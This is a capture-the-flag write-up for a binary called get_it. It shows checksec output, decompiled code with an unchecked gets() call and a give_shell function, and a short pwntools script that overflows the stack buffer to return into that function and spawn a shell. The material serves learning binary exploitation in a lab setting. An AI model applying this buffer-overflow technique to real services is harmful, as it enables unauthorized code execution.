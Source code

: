 ## Write-up

```plaintext
λ ~/ file get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
λ ~/ pwn checksec get_it
[*] '/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```plaintext
λ ~/ ./get_it
Do you gets it??
i will
```

伪代码如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[32]; // [rsp+10h] [rbp-20h] BYREF

  puts("Do you gets it??");
  gets(v4);
  return 0;
}
```

```c
int give_shell()
{
  return system("/bin/bash");
}
```

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='amd64', log_level='debug', terminal='kitty')

target = process('./get_it')

payload = b'A' * (0x20 + 0x8) + p64(0x4005f7) + p64(0x4005b6)

target.sendline(payload)
target.interactive()
```
